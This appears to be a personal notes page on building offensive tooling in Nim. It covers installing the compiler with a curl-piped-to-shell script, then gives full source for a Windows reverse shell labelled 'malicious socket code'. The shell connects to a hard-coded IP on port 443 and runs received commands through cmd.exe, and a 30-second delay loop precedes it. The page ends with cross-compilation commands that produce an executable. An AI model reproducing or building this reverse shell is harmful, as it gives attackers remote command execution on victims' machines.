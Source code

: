 ```yaml
---
description: 05-11-2023
---
```


# Nim

## Installation

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

chown:

```
sudo chown -R $(whoami) /opt/homebrew/Cellar/mingw-w64/11.0.0/
```

Add to PATH:

```
fish_add_path /opt/homebrew/bin/
export PATH=/opt/homebrew/bin/
```

## Example Build

test.nim (malicious socket code):

```
import net, osproc, strformat, times

let now1 = now() + 30.seconds
var i = 1

while now() <= now1:
    var i = i + 1

let
    ip = "192.168.1.119"
    port = 443
    sock = newSocket()

sock.connect(ip, Port(port))

let prompt = "Nim-Shell> "
while true:
    send(sock, prompt)
    let bad = recvLine(sock)
    let cmd = execProcess(fmt"cmd.exe /C " & bad)
    send(sock, cmd)
```

Build:

```
nim c -d:x86_64-w64-mingw32-gcc test.nim
```

You should then see <mark style="color:blue;">**SuccessX**</mark>:

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

You will then have an executable test binary.

## Testing code (no compile)

```
nim c --run test.nim
```
